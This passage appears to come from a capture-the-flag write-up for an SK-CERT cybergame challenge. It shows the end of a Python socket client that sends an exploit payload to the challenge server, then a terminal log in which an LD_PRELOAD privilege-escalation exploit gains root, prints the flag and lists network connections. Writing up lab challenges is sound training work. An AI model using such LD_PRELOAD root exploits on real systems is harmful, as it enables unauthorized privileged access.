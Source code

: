 ```bash
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

            print("[*] Response received:")
            decoded_response = response.decode(errors='ignore')
            print(decoded_response)

    except socket.timeout:
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()

```

Executing the LD_PRELOAD exploit to access root user secrets with sudo privileges.
```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>> /usr/bin/gcc
Compiled successfully
SK-CERT{r007_u53r_pr3l04d3d_pr1v1l3635}
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 cdaa1b13df3c:2337       cybergame-fake-so:43182 ESTABLISHED
Active UNIX domain sockets (w/o servers)
Proto RefCnt Flags       Type       State         I-Node   Path
0
```
